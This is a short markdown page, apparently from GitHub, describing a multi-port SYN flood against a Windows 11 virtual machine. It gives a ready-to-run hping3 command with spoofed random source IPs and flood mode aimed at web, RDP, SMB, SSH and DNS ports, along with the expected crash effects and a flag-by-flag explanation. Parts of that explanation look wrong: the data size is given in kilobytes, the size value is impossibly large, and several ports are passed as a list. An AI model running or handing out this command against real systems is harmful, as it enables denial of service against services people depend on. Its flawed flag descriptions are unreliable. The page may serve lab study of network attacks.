# Multi-Port SYN Flood Attack (Random Source IPs)

## Effects:
- High CPU, RAM, and Network (Ethernet) Usage on Windows 11 VM.
- Can slow down or crash network services like RDP, SMB, DNS, and Web Server.
- The Windows 11 VM may crash or freeze due to high processing load.

## Command:
```bash
sudo hping3 -S --flood --rand-source -p 80,443,3389,445,22,53 -d 3000000 --fast <Target IP>
```

## Explanation:

- `-S` → Sends SYN flag, initiating TCP handshake flood.
- `--flood` → Sends continuous packets without waiting for a response.
- `--rand-source` → Uses random fake IPs to bypass filtering.
- `-p 80,443,3389,445,22,53` → Targets multiple ports.
- `-d 3000000` → Defines data packet size in KB.
- `--fast` → Sends packets at maximum speed.
